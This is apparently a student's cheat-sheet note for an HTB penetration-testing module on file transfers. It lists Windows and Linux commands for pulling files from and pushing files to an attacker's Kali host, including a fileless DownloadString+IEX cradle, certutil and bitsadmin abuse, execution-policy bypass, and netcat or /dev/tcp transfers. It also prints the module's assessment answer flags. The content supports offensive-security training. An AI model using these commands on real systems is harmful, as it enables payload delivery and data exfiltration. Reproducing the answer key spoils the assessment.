

# File Transfers (HTB Supplementary)

#FileTransfers #Windows #Linux #PowerShell #iwr #certutil #scp #netcat #BitsTransfer #WebClient #RDP #LOLBAS #GTFOBins #HTBSupplementary

**HTB File Transfers module** — supplementary reference note. The Offsec modules scatter file transfer one-liners throughout their labs (iwr in Windows PrivEsc, python3 http.server in Client-Side Attacks, scp in Linux PrivEsc, xfreerdp /drive: in Antivirus Evasion). This note consolidates all methods in one scannable cheat sheet and adds the few genuinely new ones (DownloadFile, nc pipe, BitsTransfer, Python urlretrieve).

> 🔁 Cross-refs: [[Windows Privilege Escalation]] (iwr + certutil in lab steps), [[Antivirus Evasion]] (xfreerdp /drive: with tsclient note), [[Linux Privilege Escalation]] (scp in exploit transfer steps), [[Client-Side Attacks]] (WebClient download cradle), [[Port Redirection and SSH Tunneling]] (nc FIFO pipe)

---

## FT.1. Setup: Serve Files from Kali

Almost every download-to-target method below requires Kali to be serving the file first.

```bash
# Python HTTP server (most common — one command, no install needed)
cd /directory/containing/file
python3 -m http.server 80          # port 80
python3 -m http.server 8080        # non-root alternative

# Serve on a specific interface only
python3 -m http.server 80 --bind 0.0.0.0

# Check what's in your current working directory before starting
ls -la
```

> 🔧 Technique: always `cd` to the directory with the file first, not just specify a path. Python's HTTP server doesn't support path arguments by default — it serves from the CWD only.

> 🔧 Technique: if port 80 requires root (`sudo`), use 8080 instead and adjust the download commands accordingly.

---

## FT.2. Windows Download Methods

**All of these pull from Kali's HTTP server (`http://KALI_IP:PORT/file`).**

---

**PowerShell: iwr (Invoke-WebRequest)** — most common in practice:
```powershell
iwr http://KALI_IP/file.exe -OutFile file.exe
iwr http://KALI_IP/file.exe -OutFile "C:\Users\user\Desktop\file.exe"

# Aliases: iwr = wget = curl in PowerShell (all point to Invoke-WebRequest)
wget http://KALI_IP/file.txt -OutFile flag.txt
```

---

**PowerShell: WebClient.DownloadFile** — saves to disk (different from DownloadString which executes in memory):
```powershell
# Save to disk
(New-Object System.Net.WebClient).DownloadFile('http://KALI_IP/file.exe', 'C:\Users\user\file.exe')

# In-memory execution (download cradle — no file written to disk, runs directly)
IEX (New-Object System.Net.WebClient).DownloadString('http://KALI_IP/script.ps1')
# OR:
(New-Object System.Net.WebClient).DownloadString('http://KALI_IP/script.ps1') | IEX
```

| Method | Writes to disk? | Use case |
|--------|----------------|----------|
| `DownloadFile` | Yes | Executables, binaries, archives you need to run/extract |
| `DownloadString` + IEX | No | PowerShell scripts — stealth, bypasses some AV that monitors new file creation |

> 🔁 Similar to: [[Client-Side Attacks#11.3.3. Staged Payload|11.3.3 download cradle]] uses DownloadString + IEX for powercat delivery

---

**LOLBAS: certutil** — built-in Windows binary, no PowerShell required:
```cmd
certutil -urlcache -split -f http://KALI_IP/file.exe file.exe
```
`-urlcache` = use the URL cache subsystem (legitimate feature, abused here). `-split` = split the download into chunks. `-f` = force overwrite if file already exists.

> 🔁 Similar to: [[Windows Privilege Escalation#17.2.3|17.2.3]] uses certutil in the unquoted service path lab steps

---

**LOLBAS: bitsadmin** — Background Intelligent Transfer Service, throttleable and resumable:
```cmd
bitsadmin /transfer job /download /priority normal http://KALI_IP/file.exe C:\path\file.exe
```
BITS is a legitimate Windows update delivery mechanism. Transfers survive reboots, which makes it useful and also a common persistence vector. The `job` is just a name for the transfer job (can be anything).

---

**PowerShell: Start-BitsTransfer** — PowerShell wrapper for BITS:
```powershell
Start-BitsTransfer -Source http://KALI_IP/file.exe -Destination C:\path\file.exe

# Upload direction (to an HTTP endpoint that accepts PUT/POST)
Start-BitsTransfer -Source C:\path\file.txt -Destination http://KALI_IP:PORT/upload -TransferType Upload
```

---

**PowerShell: Expand-Archive** — extract a zip file (no WinZip/7-Zip required):
```powershell
Expand-Archive .\archive.zip                     # extracts to .\archive\ subdirectory
Expand-Archive .\archive.zip -DestinationPath C:\target\dir   # extract to specific path
Expand-Archive .\archive.zip -Force              # overwrite existing files
```

---

**Windows: check what was downloaded:**
```powershell
type .\flag.txt        # CMD-style, works in PowerShell too
Get-Content .\flag.txt # PowerShell native
cat .\flag.txt         # alias
```

---

> 🔍 Worth remembering generally: PowerShell execution policy can block script execution. Before running a downloaded `.ps1`:
> ```powershell
> Set-ExecutionPolicy Bypass -Scope Process   # temporary, this session only
> powershell -ep bypass -File .\script.ps1     # one-shot bypass on launch
> ```

#### Tags: #WindowsDownload #iwr #WebClient #DownloadFile #certutil #bitsadmin #BitsTransfer #ExpandArchive

---

## FT.3. Windows Upload Methods

**Uploading from Windows to Kali** is less common but needed for exam evidence collection or tool output exfiltration.

---

**Kali: set up a receiving HTTP server (uploadserver):**
```bash
# Install uploadserver (supports POST/PUT file uploads)
pip3 install uploadserver
python3 -m uploadserver 8080

# OR: use the standard http.server for simple GET/POST (limited)
python3 -m http.server 8080
```

**PowerShell: upload via Invoke-RestMethod or Invoke-WebRequest:**
```powershell
# Upload file to uploadserver
Invoke-RestMethod -Uri http://KALI_IP:8080/upload -Method POST -InFile C:\path\file.txt

# Or with iwr
iwr -Uri http://KALI_IP:8080/upload -Method POST -InFile C:\path\file.txt
```

**evil-winrm built-in upload/download** (when WinRM is the access method):
```powershell
# Inside an evil-winrm session
upload /home/kali/file.exe C:\Users\user\file.exe
download C:\Users\user\flag.txt /home/kali/flag.txt
```
No HTTP server needed — transfers happen over the WinRM connection itself (port 5985).

> 🔁 Similar to: [[Windows Privilege Escalation#17.3.1|17.3.1]] — evil-winrm upload used to plant BackendCacheCleanup.exe replacing the scheduled task binary

---

#### Tags: #WindowsUpload #uploadserver #evil-winrm #InvokeRestMethod

---

## FT.4. Linux Download Methods

**All of these pull from Kali's HTTP server.**

---

**wget** — most common:
```bash
wget http://KALI_IP/file
wget http://KALI_IP/file -O /path/to/save/file   # -O = output filename/path
```

---

**curl:**
```bash
curl http://KALI_IP/file -o localfile
curl -O http://KALI_IP/file     # -O = save with server's filename
```

---

**Python (when wget/curl aren't available on restricted targets):**
```bash
# Interactive Python session
python3
>>> import urllib.request as request
>>> request.urlretrieve("http://KALI_IP/file", "localfile")

# One-liner from shell
python3 -c "import urllib.request; urllib.request.urlretrieve('http://KALI_IP/file', 'file')"

# Python 2 (legacy systems)
python -c "import urllib; urllib.urlretrieve('http://KALI_IP/file', 'file')"
```

---

**Bash /dev/tcp** (when no downloader binaries exist at all):
```bash
exec 3<>/dev/tcp/KALI_IP/80
echo -e "GET /file HTTP/1.1\r\nHost: KALI_IP\r\nConnection: close\r\n\r\n" >&3
cat <&3 > file
```
Raw TCP, no tools needed, just bash. The response includes HTTP headers before the file content — strip them if needed.

---

**SCP from Kali to target** (when SSH access exists):
```bash
# Push a file to the target (run this on Kali)
scp /path/to/local/file user@TARGET_IP:~/

# Push to a specific path
scp /path/to/file user@TARGET_IP:/home/user/tools/file

# Push a directory recursively
scp -r /local/dir user@TARGET_IP:~/
```

---

#### Tags: #LinuxDownload #wget #curl #Python #urlretrieve #BashTCP #scp

---

## FT.5. Linux Upload Methods

---

**SCP from target to Kali** (when SSH is available):
```bash
# Pull from target back to Kali
scp user@TARGET_IP:/path/to/file /local/destination/

# Or, on target: push to Kali (Kali must have SSH running)
scp /path/to/file kali@KALI_IP:~/
```

---

**nc (netcat) file pipe** — useful when SSH isn't available:

On **target (receiver):**
```bash
nc -lp 9999 > received_file
```

On **Kali (sender):**
```bash
nc -w 3 TARGET_IP 9999 < file_to_send
# -w 3 = timeout after 3 seconds of idle (closes connection when done)
```

Reverse direction (target sends to Kali):

On **Kali (receiver):**
```bash
nc -lp 9999 > received_file
```

On **target (sender):**
```bash
nc -w 3 KALI_IP 9999 < file_to_send
```

> 🔧 Technique: there's no progress indicator or confirmation with nc file pipes. Verify integrity after transfer with `md5sum file` on both sides and compare. `md5sum localfile` on Kali, `md5sum received_file` on target — values should match.

> 🔧 Technique: if the target has a firewall blocking outbound connections, flip the direction: target listens, Kali connects. If it blocks inbound too, use an existing open port (e.g. port 80 or 443 on a service you're not using).

---

**curl upload to Kali's uploadserver:**
```bash
# Start uploadserver on Kali first
pip3 install uploadserver && python3 -m uploadserver 8080

# On target: upload
curl -F 'files=@/path/to/file' http://KALI_IP:8080/upload
```

---

#### Tags: #LinuxUpload #scp #netcat #ncPipe #curl #uploadserver

---

## FT.6. RDP File Transfer (xfreerdp Drive Mount)

When you have RDP access to a Windows target, mounting a local Kali directory over the RDP session is often the cleanest file transfer method. No HTTP server, no credentials beyond RDP — files appear as a network drive inside Windows.

```bash
# Connect with /drive: flag to mount a local directory
xfreerdp /v:TARGET_IP /u:user /p:password \
  /drive:kali,/home/kali/transfers \
  /dynamic-resolution +clipboard

# Example: mount /tmp/rdp-share
xfreerdp /v:TARGET_IP /u:htb-student /p:"HTB_@cademy_stdnt!" \
  /drive:kali,/tmp/rdp-share
```

**Inside Windows (in the RDP session):** the mounted directory appears as:
```
\\tsclient\kali\
```
The name after `tsclient\` matches the label you gave in `/drive:LABEL,/path`. Access it in File Explorer or from PowerShell:
```powershell
# Copy from the Kali share to Windows desktop
Copy-Item \\tsclient\kali\tool.exe C:\Users\user\Desktop\tool.exe

# Or just double-click it from File Explorer: \\tsclient\kali
```

> 🔁 Similar to: [[Antivirus Evasion#15.2.2|15.2.2 capstone]] and [[Password Attacks]] both use this exact `/drive:kali,/path` pattern for tool delivery

> 🔧 Technique: the mounted path on Kali must exist before you launch xfreerdp. Create it first: `mkdir /tmp/rdp-share`. Then drop files into it from Kali and they appear instantly in `\\tsclient\kali\` on the Windows side, no reconnect needed.

---

**rdesktop** alternative (older, less features, but present on some systems):
```bash
rdesktop TARGET_IP -u user -p password -r disk:kali=/home/kali/transfers
```
Inside Windows it appears the same way: `\\tsclient\kali\`.

#### Tags: #RDP #xfreerdp #DriveMount #tsclient #rdesktop

---

## FT.7. Method Decision Tree



---

## FT.8. Skills Assessment Answers

| Section | Question | Answer |
|---|---|---|
| Windows File Transfer | Download flag.txt via wget/WebClient from web root | **b1a4ca918282fcd96004565521944a3b** |
| Windows File Transfer | Upload zip, Expand-Archive, run hasher.exe on txt | **f458303ea783c224c6b4e7ef7f17eb9d** |
| Linux File Transfer | Download flag.txt via Python urllib from web root | **5d21cf3da9c0ccb94f709e2559f3ea50** |
| Linux File Transfer | Upload zip, unzip, run hasher on txt | **159cfe5c65054bbadb2761cfa359c8b0** |

**Windows upload chain (Q2):** `python3 -m http.server 8080` on Kali → `iwr http://KALI:8080/upload_win.zip -OutFile upload_win.zip` on target → `Expand-Archive .\upload_win.zip` → `hasher.exe .\upload_win\upload_win.txt`

**Linux upload chain (Q2):** `scp upload_nix.txt htb-student@TARGET:~/` OR `nc -lp 9999 > upload_nix.txt` on target + `nc -w 3 TARGET 9999 < upload_nix.txt` on Kali → `hasher upload_nix.txt` on target

---

## Outstanding Sections

- [x] FT.1. Kali HTTP server setup
- [x] FT.2. Windows Download Methods (iwr, DownloadFile, certutil, bitsadmin, BitsTransfer, Expand-Archive)
- [x] FT.3. Windows Upload Methods (uploadserver, evil-winrm)
- [x] FT.4. Linux Download Methods (wget, curl, Python, bash /dev/tcp, scp)
- [x] FT.5. Linux Upload Methods (scp, nc pipe, curl + uploadserver)
- [x] FT.6. RDP Drive Mount (xfreerdp /drive:, rdesktop)
- [x] FT.7. Decision Flow Diagram
- [x] FT.8. Skills Assessment Answers
- All section Q&A covered — no separate VM labs beyond the practice exercises (DONE answers)
